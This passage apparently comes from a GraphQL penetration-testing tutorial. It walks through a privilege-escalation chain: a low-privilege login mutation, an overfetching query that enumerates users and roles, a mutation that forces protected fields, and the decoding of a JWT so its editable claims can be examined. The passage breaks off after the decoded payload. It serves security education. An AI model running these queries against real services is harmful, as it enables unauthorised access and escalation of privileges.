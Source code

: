 ### Scenario 3: Chaining Multiple Vulnerabilities for Privilege Escalation

This attack chain demonstrates a sophisticated privilege escalation:

1. **Initial Access**: The attacker starts with a low-privileged account.

```graphql
mutation {
  login(username: "regular_user", password: "password123") {
    token
  }
}
```

2. **Information Gathering**: The attacker uses overfetching to discover admin accounts.

```graphql
query {
  users {
    id
    username
    role
    email
  }
}
```

3. **Exploiting Broken Authentication**: The attacker finds a manipulation vulnerability in the login mutation.

```graphql
mutation {
  login(username: "regular_user", password: "password123") {
    token
    # Forcing fields that might not be properly protected
    user {
      id
      role
      permissions
    }
  }
}
```

4. **JWT Analysis**:
   - Use the JWT token from the response
   - Decode it using Burp's JWT Editor extension or an online tool like jwt.io
   - Examine the payload for editable claims:
     ```javascript
     // Decoded JWT payload
     {
       "sub": "123",
       "username": "regular_user",
       "role": "user",
       "iat": 1650000000,
       "exp": 1650086400
     }
     ```
